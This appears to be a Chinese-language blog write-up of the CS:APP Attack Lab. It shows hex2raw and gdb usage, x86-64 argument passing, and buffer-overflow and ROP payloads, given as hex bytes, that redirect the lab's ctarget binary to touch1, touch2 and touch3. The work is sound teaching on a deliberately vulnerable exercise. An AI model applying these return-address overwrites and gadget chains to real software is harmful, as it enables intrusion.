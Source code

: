 ```yaml
---
layout:     post
title:      csapp-attacklab
subtitle:   csapp-lab
date:       2020-07-28
author:     X1ng
header-img: csapp_lab3.jpg
catalog: true
tags:

- lab
- csapp




---
```


开始没有pwn的工具不知所措，参考了别的师傅的博客才知道给出的文件使用方法

我在2020年7月23日到28日下载的实验文件里给出的ctarget和rtarget是两个一样的文件，所以相当于只完成了半个实验。。

## 实验辅助

hex2raw的使用说明

要求输入是一个十六进制格式的字符串，用两个十六进制数字表示一个字节值，字节值之间以空白符（空格或新行）分隔，注意使用小端法字节序。

将攻击字符串存入文件中，如attack.txt

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6s6t1shjj30gw08at8s.jpg)

然后用下述方法调用：

1.`cat attack.txt | ./hex2raw | ./ctarget`

2.`./hex2raw <attack.txt> attackraw.txt`

`./ctarget < attackraw.txt`或 `./ctarget -i attackraw.txt`

3.结合gdb使用

./hex2raw <attack.txt> attackraw.txt

gdb ctarget

(gdb) run < attackraw.txt 或 (gdb) run -i attackraw.txt

生成字节代码操作

编写一个汇编文件：

vim attack.s

汇编和反汇编此文件：

gcc -c attack.s

objdump -d attack.o > attack.d

由此推出这段代码的字节序列。

涉及的gdb命令

(gdb) r run的简写，运行被调试的程序。若有断点，则程序暂停在第一个可用断点处。

(gdb) c continue的简写，继续执行被调试程序，直至下一个断点或程序结束。

(gdb) print <指定变量> 显示指定变量的值。

(gdb) break *<代码地址> 设置断点。

(gdb) x/<n/f/u> <addr> examine的简写，查看内存地址中的值。

————————————————

版权声明：CSDN博主「_Silvia」的原创文章，原文链接：https://blog.csdn.net/qq_36894564/article/details/72863319

## 前置知识

需要了解函数调用、栈溢出相关知识

32位下函数调用——[手把手教你栈溢出从入门到放弃](https://zhuanlan.zhihu.com/p/25816426)

64位函数调用的传参方式不同于32位

当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9

当参数为7个以上时，前6个同上，剩下的参数与32位一样从右往左压栈

如调用H(a, b, c, d, e, f, g, h);

a->%rdi, b->%rsi, c->%rdx, d->%rcx, e->%r8, f->%r9		h->8(%esp)		g->(%esp)

再call H

## attacklab

相关函数逻辑就是提供一个Cookie再输入通过getbuf()往栈中输入一个字符串，存在溢出漏洞，可以控制`ret`返回地址

### touch1

在getbuf()中可以看到`sub rsp,0x28`可知栈长度为0x28

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6rugo2v6j314u0cqdk7.jpg)

输入字符串"aaaaaaaa"，可以看到输入字符串的内存单元正好时rsp指向的内存单元

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6skh2m80j319s0ictdq.jpg)

所以只要输入`'a'*0x28+(address)`即可控制程序流，填充为touch1()地址，即可执行touch1()

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6sk2bii1j31n60h4gol.jpg)

payload:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00		//touch1
```

（小端序）

pass

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6skrwyp2j31ea09mtbq.jpg)

### touch2

找到touch2的地址

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh6ssfzyk4j31ms0t4jy0.jpg)

可以看到

`cmp     edi, cs:cookie`

即 将第一个参数（rdi中的数据）与cookie比较

用ROPgadget搜索gadgets

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh72vhbv1rj315y0u0qdf.jpg)

找到`0x000000000040141b	:	pop rdi	;	ret`

payload:

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00		//pop rdi;ret;
fa 97 b9 59 00 00 00 00		//cookie
ec 17 40 00 00 00 00 00		//touch2
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh738pd9qwj31ee0a8dj8.jpg)

### touch3

有点迷，跳转touch3后各种操作，最后发现就是比较 调用touch3的参数作为地址的字符串 与cookie（总觉得是个非预期）

若payload为

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00
00 00 00 00 00 00 00 00
fa 18 40 00 00 00 00 00
```

则

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh72xssb74j316o0h40zb.jpg)

然后Segmentation fault

所以payload:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1b 14 40 00 00 00 00 00   //pop rdi;ret;
23 dc 61 55 00 00 00 00   //&cookie
fa 18 40 00 00 00 00 00   //touch3
```

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh738h1nsnj31400ge457.jpg)

pass

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gh7388kbzoj31e80a8whw.jpg)